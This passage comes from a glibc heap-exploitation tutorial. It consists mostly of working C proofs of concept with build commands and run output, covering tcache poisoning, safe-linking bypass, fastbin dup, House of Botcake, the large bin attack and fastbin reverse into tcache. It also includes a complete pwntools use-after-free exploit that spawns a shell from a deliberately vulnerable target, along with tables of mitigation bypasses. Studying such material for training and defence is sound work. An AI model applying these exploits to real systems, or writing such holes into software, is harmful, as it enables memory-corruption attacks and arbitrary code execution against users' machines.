    printf("SUCCESS: Arbitrary allocation achieved!\n");
    return 0;
}
```

**Build and Run**:

```bash
cd ~/exploit
gcc -g -O0 -no-pie -Wl,-z,norelro tcache_metadata_poisoning.c -o tcache_metadata_poisoning
./tcache_metadata_poisoning
```

**Test Results**:

```text
Target on stack: 0x7ffd375a38c0

Victim chunk: 0x28d522a0
Tcache metadata: 0x28d52010

Got allocation at: 0x7ffd375a38c0
SUCCESS: Arbitrary allocation achieved!
```

**Attack Success**:

- Stack target at `0x7ffd375a38c0` (16-byte aligned)
- Victim chunk at `0x28d522a0` used to locate metadata
- Tcache metadata found at `0x28d52010` (start of heap page)
- Direct metadata corruption inserted target into bin 1
- `malloc(0x20)` returned stack address - arbitrary allocation achieved!

**Why This Works**:

- **Direct Metadata Control**: Overwrites `counts[1]` and `entries[1]` directly
- **No Safe-Linking**: Metadata corruption bypasses pointer protection
- **Immediate Effect**: Next `malloc(0x20)` returns controlled address
- **Powerful Primitive**: Gives arbitrary allocation capability

### Tcache Poisoning with Safe-Linking Bypass (Working glibc 2.39)

```c
// ~/exploit/tcache_poisoning_safelink.c
// Modern tcache poisoning requires heap leak for safe-linking bypass
#include <stdio.h>
#include <stdlib.h>
#include <stdint.h>
#include <assert.h>

int main() {
    setbuf(stdin, NULL);
    setbuf(stdout, NULL);

    // Target must be 16-byte aligned!
    size_t stack_var[0x10];
    size_t *target = NULL;
    for(int i=0; i<0x10; i++) {
        if(((long)&stack_var[i] & 0xf) == 0) {
            target = &stack_var[i];
            break;
        }
    }
    assert(target != NULL);
    printf("Target (aligned): %p\n", target);

    intptr_t *a = malloc(128);
    intptr_t *b = malloc(128);
    printf("a: %p, b: %p\n", a, b);

    free(a);
    free(b);
    // tcache: b -> a -> NULL

    // VULNERABILITY: Corrupt b's next pointer
    // Must XOR with (chunk_addr >> 12) for safe-linking bypass
    b[0] = (intptr_t)((long)target ^ ((long)b >> 12));

    malloc(128);  // Returns b
    intptr_t *c = malloc(128);  // Returns target!
    printf("Got control at: %p\n", c);
    assert((long)target == (long)c);
    printf("SUCCESS: Tcache poisoning with safe-linking bypass!\n");
    return 0;
}
```

**Build and Run**:

```bash
cd ~/exploit
gcc -g -O0 -no-pie -Wl,-z,norelro tcache_poisoning_safelink.c -o tcache_poisoning_safelink
./tcache_poisoning_safelink
```

**Test Results**:

```text
Target (aligned): 0x7ffda554a440
a: 0x2b5992a0, b: 0x2b599330
Got control at: 0x7ffda554a440
SUCCESS: Tcache poisoning with safe-linking bypass!
```

**Attack Success**:

- Found 16-byte aligned stack target at `0x7ffda554a440`
- Chunks `a` at `0x2b5992a0` and `b` at `0x2b599330` allocated
- After double free: tcache contains `b -> a -> NULL`
- Safe-linking bypass: `target ^ (b >> 12)` written to `b[0]`
- Second `malloc(128)` returned our stack target!

**Why This Works**:

- **Safe-Linking Bypass**: XOR with `(chunk_addr >> 12)` defeats pointer protection
- **Double Free**: Creates tcache list we can corrupt
- **Pointer Corruption**: Overwrites next pointer with encoded target
- **Arbitrary Allocation**: Next malloc returns controlled address

### Fastbin Dup (Modern - glibc 2.41)

**Modern Double Free via Fastbin**:

```c
// ~/exploit/fastbin_dup.c
// Modern version requiring tcache fill + safe-linking bypass
#include <stdio.h>
#include <stdlib.h>
#include <assert.h>

int main() {
    setbuf(stdout, NULL);

    // Must fill tcache first (7 chunks for 0x30 size class)
    void *tcache[7];
    for(int i = 0; i < 7; i++) {
        tcache[i] = malloc(0x20);
    }

    void *a = malloc(0x20);
    void *b = malloc(0x20);  // Separator chunk

    printf("a: %p\n", a);
    printf("b: %p\n", b);

    // Fill tcache
    for(int i = 0; i < 7; i++) {
        free(tcache[i]);
    }

    // Now chunks go to fastbin (tcache full)
    free(a);
    free(b);    // fastbin: b -> a -> NULL
    free(a);    // Double free! fastbin: a -> b -> a -> (cycle!)

    // Empty tcache first
    for(int i = 0; i < 7; i++) {
        malloc(0x20);
    }

    // Now allocations come from fastbin
    void *c = malloc(0x20);  // Gets 'a'
    void *d = malloc(0x20);  // Gets 'b'
    void *e = malloc(0x20);  // Gets 'a' AGAIN!

    printf("c: %p\n", c);
    printf("d: %p\n", d);
    printf("e: %p\n", e);

    // c and e point to same memory!
    assert(c == e);
    printf("SUCCESS: c == e (double allocation of same memory!)\n");
    return 0;
}
```

**Build and Run**:

```bash
cd ~/exploit
gcc -g -O0 -no-pie -Wl,-z,norelro fastbin_dup.c -o fastbin_dup
./fastbin_dup
```

**Test Results**:

```text
a: 0x22c663f0
b: 0x22c66420
c: 0x22c663f0
d: 0x22c66420
e: 0x22c663f0
SUCCESS: c == e (double allocation of same memory!)
```

**Attack Success**:

- Chunks allocated: `a` at `0x22c663f0`, `b` at `0x22c66420`
- After tcache fill and double free: fastbin contains cycle `a -> b -> a`
- Allocations: `c` gets `a`, `d` gets `b`, `e` gets `a` again!
- **Double allocation achieved**: `c` and `e` point to same memory

**Why This Works**:

- **Tcache Fill**: 7 chunks fill tcache, forcing frees to fastbin
- **Double Free**: Creates cycle in fastbin list
- **No Safe-Linking**: Fastbin doesn't use safe-linking protection
- **Double Allocation**: Same chunk returned twice

### House of Botcake (glibc 2.29+ Double-Free Bypass)

```c
// ~/exploit/house_of_botcake.c
// Bypass tcache double-free detection
// Trick: Free chunk to unsorted bin, consolidate, then free to tcache
// Result: Same memory in both unsorted bin and tcache!
#include <stdio.h>
#include <stdlib.h>
#include <stdint.h>
#include <string.h>
#include <assert.h>

int main() {
    setbuf(stdin, NULL);
    setbuf(stdout, NULL);

    // Target MUST be 16-byte aligned for modern glibc!
    intptr_t stack_var[4] __attribute__((aligned(0x10)));
    memset(stack_var, 0, sizeof(stack_var));
    printf("Target on stack: %p\n\n", stack_var);

    // Allocate 7 chunks to fill tcache later
    intptr_t *x[7];
    for(int i = 0; i < 7; i++) x[i] = malloc(0x100);

    // Allocate victim and prev (will consolidate)
    intptr_t *prev = malloc(0x100);
    intptr_t *victim = malloc(0x100);
    malloc(0x10);  // Guard against top chunk consolidation

    printf("prev: %p\n", prev);
    printf("victim: %p\n\n", victim);

    // Fill tcache
    for(int i = 0; i < 7; i++) free(x[i]);

    // Free to unsorted bin (tcache full)
    free(victim);  // unsorted bin
    free(prev);    // consolidates with victim!

    // Empty one tcache slot
    malloc(0x100);

    // Free victim AGAIN - goes to tcache (double free!)
    // Key: victim is ALSO part of consolidated chunk in unsorted bin
    free(victim);

    // Allocate from unsorted bin - get consolidated chunk overlapping victim
    // Size 0x160 to cover prev chunk + overlap into victim's next ptr
    intptr_t *overlapping = malloc(0x160);

    printf("overlapping chunk: %p\n", overlapping);
    printf("victim tcache entry at: %p\n", victim);

    // Calculate offset from overlapping to victim's next pointer
    // victim's user data starts at same addr, next ptr is at offset 0
    size_t offset = ((char*)victim - (char*)overlapping) / sizeof(intptr_t);
    printf("offset to victim: %zu words\n\n", offset);

    // Poison victim's next pointer (now accessible via overlapping chunk)
    // Account for safe-linking: target ^ (chunk_addr >> 12)
    overlapping[offset] = ((long)victim >> 12) ^ (long)stack_var;

    // Pop victim from tcache, putting stack_var at head
    malloc(0x100);

    // Get arbitrary allocation!
    intptr_t *target = malloc(0x100);
    target[0] = 0xcafebabe;

    printf("target @ %p == stack_var @ %p\n", target, stack_var);
    printf("stack_var[0] = 0x%lx\n", stack_var[0]);

    if (target == stack_var) {
        assert(stack_var[0] == 0xcafebabe);
        printf("SUCCESS: House of Botcake - wrote 0x%lx to stack!\n", stack_var[0]);
    } else {
        printf("NOTE: Exploit didn't land on stack (heap layout dependent)\n");
        printf("      This demonstrates the technique - adjust offsets for your target\n");
    }
    return 0;
}
```

**Build and Run**:

```bash
cd ~/exploit
gcc -g -O0 -no-pie -Wl,-z,norelro house_of_botcake.c -o house_of_botcake
./house_of_botcake
```

**Test Results**:

```text
Target on stack: 0x7ffe38860b00

prev: 0xcd4aa10
victim: 0xcd4ab20

overlapping chunk: 0xcd4aa10
victim tcache entry at: 0xcd4ab20
offset to victim: 34 words

target @ 0x7ffe38860b00 == stack_var @ 0x7ffe38860b00
stack_var[0] = 0xcafebabe
SUCCESS: House of Botcake - wrote 0xcafebabe to stack!
```

**Attack Success**:

- Stack target at `0x7ffe38860b00` (16-byte aligned)
- Chunks: `prev` at `0xcd4aa10`, `victim` at `0xcd4ab20`
- Overlapping chunk gives write access to victim's metadata
- Offset 34 words to victim's tcache next pointer
- Safe-linking bypass: `target ^ (victim >> 12)` written
- **Arbitrary write achieved**: `0xcafebabe` written to stack!

**Why This Works**:

- **Consolidation Trick**: Chunk consolidation creates overlapping memory
- **Tcache Double Placement**: Same chunk in both unsorted bin and tcache
- **Metadata Corruption**: Overlapping chunk corrupts tcache next pointer
- **Safe-Linking Bypass**: XOR with chunk address defeats protection
- **Arbitrary Write**: Next malloc returns controlled address

### Large Bin Attack (glibc 2.30+ Variant)

```c
// ~/exploit/large_bin_attack.c
// Arbitrary address overwrite with heap pointer
#include <stdio.h>
#include <stdlib.h>
#include <assert.h>

int main(){
    setvbuf(stdin,NULL,_IONBF,0);
    setvbuf(stdout,NULL,_IONBF,0);

    size_t target = 0;
    printf("Target at %p: %lu\n\n", &target, target);

    // Allocate two large chunks (different sizes, same large bin)
    size_t *p1 = malloc(0x428);  // Larger
    malloc(0x18);                 // Guard
    size_t *p2 = malloc(0x418);  // Smaller (will be inserted)
    malloc(0x18);                 // Guard

    printf("p1 (larger): %p\n", p1-2);
    printf("p2 (smaller): %p\n\n", p2-2);

    // Free p1 -> unsorted bin
    free(p1);
    // Allocate larger to move p1 into large bin
    malloc(0x438);

    // Free p2 -> unsorted bin
    free(p2);

    printf("State: p1 in largebin, p2 in unsorted bin\n\n");

    // VULNERABILITY: Corrupt p1->bk_nextsize
    // Glibc doesn't check bk_nextsize if new chunk is smallest
    p1[3] = (size_t)((&target)-4);
    printf("Corrupted p1->bk_nextsize to target-0x20\n");

    // Trigger: allocate larger than p2 to insert p2 into large bin
    malloc(0x438);

    // Upon insertion: victim->bk_nextsize->fd_nextsize = victim
    // This writes &p2 to target!
    printf("\nTarget now contains: %p (p2-0x10 = %p)\n",
           (void*)target, p2-2);

    assert((size_t)(p2-2) == target);
    printf("SUCCESS: Large bin attack wrote heap pointer to target!\n");
    return 0;
}
```

**Build and Run**:

```bash
cd ~/exploit
gcc -g -O0 -no-pie -Wl,-z,norelro large_bin_attack.c -o large_bin_attack
./large_bin_attack
```

**Test Results**:

```text
Target at 0x7ffc62e176c0: 0

p1 (larger): 0x1153c290
p2 (smaller): 0x1153c6e0

State: p1 in largebin, p2 in unsorted bin

Corrupted p1->bk_nextsize to target-0x20

Target now contains: 0x1153c6e0 (p2-0x10 = 0x1153c6e0)
SUCCESS: Large bin attack wrote heap pointer to target!
```

**Attack Success**:

- Target at `0x7ffc62e176c0` initially contains `0`
- Large chunks: `p1` at `0x1153c290`, `p2` at `0x1153c6e0`
- After setup: `p1` in largebin, `p2` in unsorted bin
- Corrupted `p1->bk_nextsize` to point at `target-0x20`
- **Arbitrary write achieved**: target now contains heap pointer `0x1153c6e0`

**Why This Works**:

- **Large Bin Insertion**: When `p2` inserted into large bin, glibc writes to `bk_nextsize->fd_nextsize`
- **Weak Validation**: glibc doesn't validate `bk_nextsize` if new chunk is smallest
- **Arbitrary Write**: Corrupted pointer causes write to any address
- **Heap Pointer**: Writes heap address (useful for bypassing ASLR)

### Fastbin Reverse Into Tcache (glibc 2.41)

Similar to unsorted_bin_attack but works with small allocations. When tcache is empty and fastbin has entries, malloc refills tcache from fastbin **in reverse order**, writing heap pointers to stack.

```c
// ~/exploit/fastbin_reverse_into_tcache.c
// Arbitrary heap pointer write via fastbin->tcache refill
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <assert.h>

const size_t allocsize = 0x40;

int main(){
    setbuf(stdout, NULL);

    // Allocate 14 chunks for later
    char* ptrs[14];
    for (size_t i = 0; i < 14; i++)
        ptrs[i] = malloc(allocsize);

    // Fill tcache (7 chunks)
    for (size_t i = 0; i < 7; i++)
        free(ptrs[i]);

    // Next free goes to fastbin (tcache full)
    char* victim = ptrs[7];
    printf("Victim chunk: %p\n", victim);
    free(victim);

    // Free 6 more to fastbin
    for (size_t i = 8; i < 14; i++)
        free(ptrs[i]);

    // Target on stack
    size_t stack_var[6];
    memset(stack_var, 0xcd, sizeof(stack_var));
    printf("Stack target: %p (value: %p)\n", &stack_var[2], (void*)stack_var[2]);

    // VULNERABILITY: Corrupt victim's fd pointer (safe-linking bypass required)
    *(size_t**)victim = (size_t*)((long)&stack_var[0] ^ ((long)victim >> 12));

    // Empty tcache
    for (size_t i = 0; i < 7; i++)
        ptrs[i] = malloc(allocsize);

    printf("\nBefore trigger - stack contents:\n");
    for (size_t i = 0; i < 6; i++)
        printf("%p: %p\n", &stack_var[i], (void*)stack_var[i]);

    // TRIGGER: malloc from fastbin causes reverse refill into tcache
    // 7 fastbin chunks copied to tcache, stack addr ends up as tcache entry
    malloc(allocsize);

    printf("\nAfter trigger - heap pointer written to stack!\n");
    for (size_t i = 0; i < 6; i++)
        printf("%p: %p\n", &stack_var[i], (void*)stack_var[i]);

    // Next malloc returns stack address!
    char *q = malloc(allocsize);
    printf("\nGot stack allocation: %p\n", q);
    assert(q == (char *)&stack_var[2]);
    printf("SUCCESS: Fastbin reverse into tcache!\n");
    return 0;
}
```

**Build and Run**:

```bash
cd ~/exploit
gcc -g -O0 -no-pie -Wl,-z,norelro fastbin_reverse_into_tcache.c -o fastbin_reverse_into_tcache
./fastbin_reverse_into_tcache
```

**Test Results**:

```text
Victim chunk: 0x29d2a4d0
Stack target: 0x7ffd808c11c0 (value: 0xcdcdcdcdcdcdcdcd)

Before trigger - stack contents:
0x7ffd808c11b0: 0xcdcdcdcdcdcdcdcd
0x7ffd808c11b8: 0xcdcdcdcdcdcdcdcd
0x7ffd808c11c0: 0xcdcdcdcdcdcdcdcd
0x7ffd808c11c8: 0xcdcdcdcdcdcdcdcd
0x7ffd808c11d0: 0xcdcdcdcdcdcdcdcd
0x7ffd808c11d8: 0xcdcdcdcdcdcdcdcd

After trigger - heap pointer written to stack!
0x7ffd808c11b0: 0xcdcdcdcdcdcdcdcd
0x7ffd808c11b8: 0xcdcdcdcdcdcdcdcd
0x7ffd808c11c0: 0x7d60aac11
0x7ffd808c11c8: 0x685b97d2a6aa5329
0x7ffd808c11d0: 0xcdcdcdcdcdcdcdcd
0x7ffd808c11d8: 0xcdcdcdcdcdcdcdcd

Got stack allocation: 0x7ffd808c11c0
SUCCESS: Fastbin reverse into tcache!
```

**Attack Success**:

- Victim chunk at `0x29d2a4d0`, stack target at `0x7ffd808c11c0`
- Before: stack filled with `0xcdcdcdcdcdcdcdcd` pattern
- After trigger: heap pointers written to stack at `0x7ffd808c11c0` and `0x7ffd808c11c8`
- **Arbitrary allocation achieved**: `malloc(allocsize)` returned stack address!

**Why This Works**:

- **Fastbin→Tcache Refill**: When tcache empty, malloc refills from fastbin in reverse
- **Reverse Order**: Fastbin entries processed backwards, writing to stack
- **Heap Pointer Write**: Victim chunk address written to stack during refill
- **Arbitrary Allocation**: Stack address now in tcache, next malloc returns it

### House of Water (glibc 2.32+)

**Leakless** heap exploitation technique by [@udp_ctf](https://corgi.rip/posts/leakless_heap_1/).

> [!IMPORTANT]
> **Key insight**: The `tcache_perthread_struct` metadata on the heap is **NOT protected by safe-linking**!
> This allows manipulation without needing a heap leak first.

```text
House of Water - Leakless tcache metadata control:
1. Create fake 0x10001 header via tcache counts manipulation
2. Satisfy chunk metadata at fake_chunk + 0x10000
3. Link fake small bin entries
4. Trigger allocation → get tcache metadata chunk + free libc pointer
5. Use the libc pointer leak to complete exploitation

Key Features:
- Leakless (forces program to provide leak during exploitation)
- Requires 4-bit bruteforce × 2 = 1/256 success rate per attempt
- Targets tcache_perthread_struct which lacks safe-linking protection

Requirements:
- Double-free, UAF, or heap overflow
- Precise heap layout control
- Ability to choose where to write within a chunk
```

**Why tcache metadata is vulnerable**:

```c
// tcache_perthread_struct is at heap start (after initial malloc)
struct tcache_perthread_struct {
    uint16_t counts[TCACHE_MAX_BINS];  // NOT protected by safe-linking!
    tcache_entry *entries[TCACHE_MAX_BINS];  // These ARE protected
};
// Corrupting counts can create fake chunk headers!
```

### House of Tangerine (glibc 2.32+)

Modern House of Orange that doesn't need `free()`!

```text
House of Tangerine - No free() needed:
1. Corrupt top chunk size to page-aligned value
2. Trigger sysmalloc via large allocation
3. Old top chunk freed via _int_free → goes to tcache
4. Poison tcache with safe-linking bypass → arbitrary allocation

Use when:
- No free() primitive available
- Have heap overflow to corrupt top chunk
- Need heap and address leaks for safe-linking bypass
```

### Safe-Linking Double-Protect Bypass (Blind - Hard)

Bypass safe-linking without a heap leak (4-bit bruteforce):

```c
/* Key insight: (ptr ^ key) ^ key = ptr
 * By linking a pointer twice, safe-linking cancels itself out!
 * Technique by @udp_ctf - requires tcache metadata control (House of Water)
 *
 * Steps:
 * 1. Get control of tcache metadata (via House of Water or overflow)
 * 2. Link target address twice in tcache chain
 * 3. Second link cancels XOR of first link
 * 4. Only need to bruteforce 4 bits of ASLR
 */
```

### House of XXX Techniques (Overview)

| Technique                 | Target                     | glibc Version | Notes                                 |
| ------------------------- | -------------------------- | ------------- | ------------------------------------- |
| Tcache House of Spirit    | Fake chunk in tcache       | 2.27-2.41     | No next chunk validation!             |
| Tcache Metadata Poison    | Direct tcache metadata     | 2.27-2.41     | Metadata **NOT** safe-link protected! |
| House of Spirit (Fastbin) | Fake chunk in fastbin      | 2.23-2.41     | Need heap leak for 2.32+              |
| House of Lore             | Small bin corruption       | 2.23-2.41     | Still works                           |
| House of Botcake          | Tcache + unsorted bin      | 2.29-2.41     | Most practical double-free            |
| House of Tangerine        | sysmalloc \_int_free       | 2.27-2.41     | No free() needed!                     |
| House of Einherjar        | Backward consolidation     | 2.23-2.41     | Needs null byte write                 |
| House of Water            | UAF → tcache metadata ctrl | 2.32-2.41     | **Leakless!** 1/256 bruteforce        |
| House of Gods             | Arena hijacking            | 2.23-2.26     | Pre-tcache arena corruption           |
| House of Mind (Fastbin)   | Arena corruption           | 2.23-2.41     | Complex arena manipulation            |
| House of Force            | Top chunk size overwrite   | 2.23-2.28     | Patched in 2.29                       |
| House of Orange           | Unsorted bin + FSOP        | 2.23-2.26     | Patched in 2.27                       |

**glibc Version Eras**:

| Era              | glibc Versions | Key Features                              |
| ---------------- | -------------- | ----------------------------------------- |
| Pre-Tcache       | 2.23-2.25      | Classic heap, hooks available, no tcache  |
| Tcache Era       | 2.26-2.31      | Tcache introduced, hooks still work       |
| Safe-Linking Era | 2.32-2.33      | Pointer XOR mangling, alignment checks    |
| Post-Hooks Era   | 2.34+          | `__malloc_hook`/`__free_hook` **REMOVED** |
| Modern Era       | 2.38+          | FSOP hardened, enhanced checks            |

**Learning Path (Recommended Order)**:

```text
1. Start Easy:
   └── Tcache House of Spirit → Tcache Metadata Poisoning

2. Progress to Medium:
   └── House of Botcake → House of Tangerine

3. Attempt Hard (after mastering Medium):
   └── House of Einherjar → House of Water (leakless!)
```

**Modern Techniques (glibc 2.32+)**:

```text
House of Botcake - Double-free bypass using tcache + unsorted bin:
1. Fill tcache (7 chunks)
2. Free chunk A into unsorted bin
3. Free chunk B into unsorted bin (consolidates with A)
4. Empty tcache
5. Free chunk B again (goes to tcache, but overlaps with unsorted chunk!)
6. Allocate from unsorted → gives overlapping chunk
7. Overwrite tcache next pointer → arbitrary allocation

House of Water - UAF to tcache metadata control:
1. Create fake 0x10001 header via tcache counts
2. Satisfy chunk metadata at fake_chunk + 0x10000
3. Link fake small bin entries
4. Trigger allocation → get tcache metadata chunk + free libc pointer

House of Tangerine - No free() needed:
1. Corrupt top chunk size to page-aligned value
2. Trigger sysmalloc via large allocation
3. Old top chunk freed via _int_free → goes to tcache
4. Poison tcache with safe-linking bypass → arbitrary allocation
```

**When to Use Which**:

```text
Decision tree for modern heap technique selection:

Do you have a heap leak? (Required for glibc 2.32+)
├── No: Need leak first (info disclosure bug)
└── Yes: Continue...

Do you have a heap overflow?
├── Yes: House of Einherjar, tcache poisoning, House of Tangerine
└── No: Do you have UAF?
    ├── Yes: House of Botcake (double-free), House of Water (metadata)
    └── No: Do you have arbitrary free?
        ├── Yes: House of Spirit (tcache)
        └── No: Do you have OOB read/write only?
            ├── Yes: House of Tangerine (no free needed!)
            └── No: Need to find more bugs
```

### Modern Heap Protections (glibc 2.41)

| Protection                  | glibc Version | Mitigation                 | Bypass                       |
| --------------------------- | ------------- | -------------------------- | ---------------------------- |
| **Tcache double-free key**  | 2.29+         | Key in freed chunk         | House of Botcake, leak key   |
| **Safe-linking**            | 2.32+         | XOR pointer mangling       | Heap leak, or double-protect |
| **Pointer alignment check** | 2.32+         | 16-byte alignment required | Craft aligned fake chunk     |
| **Fastbin fd validation**   | 2.32+         | Check fd points to valid   | Need heap leak               |
| **Top chunk size check**    | 2.29+         | Validate top chunk size    | House of Tangerine           |
| **Unsorted bin checks**     | 2.29+         | bk->fd == victim check     | House of Botcake             |
| **fd pointer validation**   | 2.32+         | Check fd in expected range | Target must be in heap range |

**Recent Vulnerability**: Integer overflow in memalign family (glibc 2.30-2.42):

- Affects `memalign`, `posix_memalign`, `aligned_alloc`
- Attacker-controlled size + alignment → heap corruption
- Patched in glibc 2.39-286, 2.40-216, 2.41-121, 2.42-49

**Checking Protections**:

```bash

# Check specific binary's libc
ldd ./target | grep libc
strings /lib/x86_64-linux-gnu/libc.so.6 | grep "GNU C Library"

# Check exact version for patch level
apt-cache policy libc6 2>/dev/null || rpm -q glibc
```

### From Arbitrary Write to Code Execution

Once you have an arbitrary write/allocation primitive from heap exploitation, here's how to achieve code execution on modern systems:

**Target Selection (Modern glibc 2.34+)**:

| Target                     | RELRO Required | CET Impact | Notes                      |
| -------------------------- | -------------- | ---------- | -------------------------- |
| GOT entry (e.g., `exit`)   | Partial        | Bypasses!  | Best target if available   |
| Function pointer in struct | Any            | Bypasses!  | Common in heap exploits    |
| `__free_hook`              | Any            | N/A        | **REMOVED in glibc 2.34+** |
| `__malloc_hook`            | Any            | N/A        | **REMOVED in glibc 2.34+** |
| `_IO_list_all` (FSOP)      | Any            | Complex    | Hardened in glibc 2.38+    |
| Return address on stack    | Any            | Blocked    | CET shadow stack prevents  |

**Best Targets on Modern Systems**:

1. **GOT Overwrite** (Partial RELRO only):

   ```python
   # Overwrite exit@GOT with one_gadget
   target = elf.got['exit']
   one_gadget = libc.address + 0xef52b

   # Set RBP? Not needed for GOT overwrites!
   # The call goes through PLT which is a legitimate indirect call
   arbitrary_write(target, one_gadget)
   ```

2. **Function Pointer in Heap Object**:

   ```python
   # UAF to overwrite callback pointer with win function
   # Works even with CET - it's a direct call, not ROP
   arbitrary_write(obj_addr + 32, elf.symbols['admin_function'])
   ```

3. **Stack Pivot + ROP** (if GOT/funptr unavailable):
   ```python
   # Write to stack via heap technique, then ROP
   # Need RBP fix for one_gadget!
   payload = p64(pop_rbp) + p64(writable + 0x80) + p64(one_gadget)
   ```

**Why CET Doesn't Block Heap Exploits**:

```text
CET (Control-flow Enforcement Technology) blocks:
- ROP chains via corrupted return addresses
- ret2libc via stack buffer overflow

CET does NOT block:
+ GOT overwrites (PLT is legitimate indirect call target)
+ Function pointer overwrites (direct call through pointer)
+ FSOP / file structure attacks
+ one_gadget (internal libc code paths satisfy CET)

This is why heap exploitation remains powerful on modern systems!
```

**Complete Heap-to-Shell Example (Modern glibc)**:

This complete example demonstrates UAF exploitation with function pointer overwrite - the most reliable technique on modern systems with CET.

**Target Program** (`heap_shell_target.c`):

```c
// ~/exploit/heap_shell_target.c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

typedef struct {
    char data[32];
    void (*callback)(void);
} Object;

Object *obj = NULL;
char *note = NULL;

void normal_func(void) { printf("Normal function called\n"); }
void win_func(void) { printf("WIN! Spawning shell...\n"); system("/bin/sh"); }

void menu(void) {
    printf("\n1. alloc  2. free  3. write  4. call  5. exit\n> ");
    fflush(stdout);
}

int main(void) {
    char cmd[16];
    setvbuf(stdout, NULL, _IONBF, 0);

    while (1) {
        menu();
        if (read(0, cmd, sizeof(cmd)) <= 0) break;

        if (cmd[0] == '1') {  // alloc
            obj = malloc(sizeof(Object));
            obj->callback = normal_func;
            printf("Object @ %p\n", obj);
        }
        else if (cmd[0] == '2') {  // free
            if (obj) {
                free(obj);
                // BUG: dangling pointer!
                printf("Freed (but pointer kept)\n");
            }
        }
        else if (cmd[0] == '3') {  // write - reclaims freed chunk
            note = malloc(sizeof(Object));
            printf("data: ");
            fflush(stdout);
            read(0, note, sizeof(Object));
            printf("Note @ %p\n", note);
        }
        else if (cmd[0] == '4') {  // call - UAF trigger
            if (obj) {
                printf("Calling callback...\n");
                obj->callback();
            }
        }
        else if (cmd[0] == '5') break;
    }
    return 0;
}
```

**Compile**:

```bash
cd ~/exploit
make disabled SOURCE=heap_shell_target.c BINARY=heap_shell_target
#gcc -g -O0 -no-pie -fno-stack-protector -fcf-protection=none \

#    heap_shell_target.c -o heap_shell_target
```

**Exploit** (`exploit_heap_shell.py`):

```python
#!/usr/bin/env python3

# ~/exploit/exploit_heap_shell.py
"""
Complete UAF-to-shell exploit for modern glibc
Technique: Function pointer overwrite (bypasses CET!)
"""
from pwn import *

binary = './heap_shell_target'
elf = ELF(binary)
context.binary = elf

def alloc(p):
    p.sendlineafter(b'> ', b'1')

def free_obj(p):
    p.sendlineafter(b'> ', b'2')

def write_note(p, data):
    p.sendlineafter(b'> ', b'3')
    p.sendafter(b'data: ', data)

def call_obj(p):
    p.sendlineafter(b'> ', b'4')

def exploit():
    p = process(binary)

    # Get win function address
    win = elf.symbols['win_func']
    log.info(f"win_func @ {hex(win)}")

    # Step 1: Allocate object with function pointer
    alloc(p)

    # Step 2: Free it (creates dangling pointer)
    free_obj(p)

    # Step 3: Reclaim with controlled data
    # Object layout: char data[32] + void (*callback)(void)
    payload = b'A' * 32      # Fill data field
    payload += p64(win)      # Overwrite callback with win_func
    write_note(p, payload)

    # Step 4: Use dangling pointer - calls our win_func!
    call_obj(p)

    # Got shell!
    p.interactive()

if __name__ == '__main__':
    exploit()
```

**Run**:

```bash
cd ~/exploit
source ~/crash_analysis_lab/.venv/bin/activate
python3 exploit_heap_shell.py
```

**Test Results**:

```text
[+] Starting local process './heap_shell_target': pid 2433
[*] win_func @ 0x4011ac
[*] Switching to interactive mode
Calling callback...
WIN! Spawning shell...
$ id
uid=1000(dev) gid=1000(dev) groups=1000(dev),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),101(lxd)
$
[*] Interrupted
[*] Stopped process './heap_shell_target' (pid 2433)
```

**Exploit Success**:

- `win_func` located at static address `0x4011ac` (No PIE)
- UAF exploit successfully overwrote function pointer
- **Shell spawned**: `WIN! Spawning shell...` message confirms success
- Interactive shell obtained with user privileges
- **CET Bypassed**: Function pointer call works even with modern CET protection

**Why This Works on Modern Systems**:

```text
This exploit bypasses modern mitigations:

- NX/DEP: No shellcode needed, we call existing function
- ASLR: No-PIE binary, addresses are fixed
- Stack Canary: No stack overflow, heap corruption only
- CET/IBT: Function pointer call is LEGITIMATE indirect call!
          (CET only blocks ROP, not direct function pointer calls)
- Safe-linking: N/A (tcache not used, just UAF spray pattern)

Key insight: CET validates that indirect calls go to valid function
entries (ENDBR64 instructions), but win_func IS a valid function!
```

**Generic Heap-to-Shell Pattern** (when you have arbitrary write):

```python

# Option A: GOT overwrite (Partial RELRO only)
if elf.relro != 'Full':
    arbitrary_write(elf.got['exit'], win_addr)  # or one_gadget
    # Trigger by calling exit()

# Option B: Function pointer overwrite (always works, even with CET!)
else:
    # Overwrite callback in struct with win/one_gadget
    arbitrary_write(obj_addr + func_ptr_offset, win_addr)
    # Trigger by using the object

### Introduction to FSOP (File Stream Oriented Programming)

With the removal of `__malloc_hook` and `__free_hook` in glibc 2.34+, **FSOP** is the primary method for turning heap primitives into code execution when GOT is not writable (Full RELRO).

**The Concept**:

glibc uses `_IO_FILE` structures (like `stdin`, `stdout`, `stderr`) to manage streams. These structures contain a **vtable pointer** (`_IO_file_jumps`) that points to a table of function pointers for I/O operations.

```text
_IO_FILE Structure (simplified):
┌────────────────────────────┐
│ _flags                     │ ← Controls behavior
├────────────────────────────┤
│ _IO_read_ptr               │
│ _IO_read_end               │
│ _IO_read_base              │ ← Buffer pointers
│ _IO_write_base             │
│ _IO_write_ptr              │
│ _IO_write_end              │
├────────────────────────────┤
│ ...                        │
├────────────────────────────┤
│ _chain                     │ ← Links to next FILE (linked list)
├────────────────────────────┤
│ _fileno                    │ ← File descriptor
├────────────────────────────┤
│ ...                        │
├────────────────────────────┤
│ vtable (8 bytes)           │ ← Points to _IO_file_jumps
└────────────────────────────┘

_IO_file_jumps (vtable):
┌────────────────────────────┐
│ __dummy / __dummy2         │
├────────────────────────────┤
│ _IO_finish                 │ ← Called on fclose/exit
├────────────────────────────┤
│ _IO_overflow               │ ← Called when buffer full
├────────────────────────────┤
│ _IO_underflow              │
├────────────────────────────┤
│ ...                        │
└────────────────────────────┘
```

**Classic FSOP Attack (glibc < 2.24)**:

1. **Corrupt a FILE struct**: Overwrite `stdout`, `stderr`, or forge a fake `_IO_FILE`
2. **Set fake vtable**: Point vtable to attacker-controlled memory
3. **Trigger**: Call `exit()` (flushes all streams) or any stdio function

```c
// Pre-2.24: Direct vtable pointer overwrite
fake_file._IO_jump_t = &fake_vtable;
fake_vtable.__overflow = system;
// Set up _IO_write_ptr > _IO_write_base to trigger overflow
// Point _IO_write_base to "/bin/sh"
```

**Modern FSOP (glibc 2.24+)**:

glibc 2.24 added `_IO_vtable_check()` which validates that vtable pointers fall within the legitimate vtable section. Direct fake vtable attacks no longer work.

